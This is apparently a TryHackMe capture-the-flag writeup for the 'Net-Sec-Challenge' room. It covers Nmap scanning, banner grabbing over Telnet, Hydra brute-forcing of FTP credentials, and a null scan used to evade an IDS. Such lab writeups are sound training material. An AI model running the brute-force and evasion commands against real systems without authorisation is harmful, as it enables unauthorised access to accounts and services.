 # Net-Sec-Challenge Writeup

This is a formal writeup for the **Net-Sec-Challenge** room on TryHackMe rated as medium. The challenge tests the skills learned in the Network Security module, using tools like **Nmap**, **Telnet**, and **Hydra**. The following sections cover each question and how it was solved.

---

## Question 1

**What is the highest port number being open less than 10,000?**

Command used:

```bash
nmap -p1-10000 <TARGET_IP>
```

Result: The highest port open below 10,000 was **8080 (http-proxy)**.

---

## Question 2

**There is an open port outside the common 1000 ports; it is above 10,000. What is it?**

Command used:

```bash
nmap -p- <TARGET_IP>
```

Result: The open port above 10,000 was **10021**.

---

## Question 3

**How many TCP ports are open?**

Using the same full scan as above (`nmap -p-`), we counted a total of **6 open TCP ports**.

---

## Question 4

**What is the flag hidden in the HTTP server header?**

We connected to port 80 using Telnet:

```bash
telnet <TARGET_IP> 80
```

Then sent a basic HTTP request:

```http
GET / HTTP/1.1
Host: http
```

The server responded with headers that contained the flag.

*Note:* An alternative way would have been using Nmap with service detection:

```bash
nmap -sC -p80 <TARGET_IP>
```

---

## Question 5

**What is the flag hidden in the SSH server header?**

We connected to port 22 using Telnet:

```bash
telnet <TARGET_IP> 22
```

The SSH banner revealed the flag.

*Note:* Similar to Q4, this could also be obtained with:

```bash
nmap -sC -p22 <TARGET_IP>
```

---

## Question 6

**We have an FTP server listening on a nonstandard port. What is the version of the FTP server?**

We ran a service version scan:

```bash
nmap -p- -sV <TARGET_IP>
```

Result: The FTP server was identified as **vsftpd 3.0.5**.

---

## Question 7

**We learned two usernames using social engineering: `eddie` and `quinn`. What is the flag hidden in one of these two account files and accessible via FTP?**

To brute-force the FTP credentials, we used Hydra:

```bash
hydra -l eddie -P /usr/share/wordlists/rockyou.txt ftp://<TARGET_IP>:10021
hydra -l quinn -P /usr/share/wordlists/rockyou.txt ftp://<TARGET_IP>:10021
```

Once valid credentials were found, we logged in:

```bash
ftp <TARGET_IP> 10021
```

After authenticating, one of the accounts contained a file with the hidden flag.

---

## Question 8

**Browsing to http\://\<TARGET\_IP>:8080 displays a small challenge that will give you a flag once you solve it. What is the flag?**

Visiting the page led to a challenge about bypassing an IDS using Nmap. Techniques include decoys (`-D`) or null scans (`-sN`).

In this case, the following worked:

```bash
nmap -sN <TARGET_IP>
```

The scan completed successfully and the page revealed the final flag.

---

## Conclusion

This challenge reinforced fundamental skills in:

* Enumerating services with **Nmap**
* Extracting information from banners with **Telnet**
* Cracking credentials with **Hydra**

## Disclaimer
> ⚠️ This writeup is for educational purposes only. Do not use these techniques outside of authorized environments.
---
* Using FTP clients to retrieve sensitive files
* Understanding IDS evasion with Nmap scan types

The **Net-Sec-Challenge** demonstrates how simple tools can uncover sensitive information if services are misconfigured or use weak credentials.
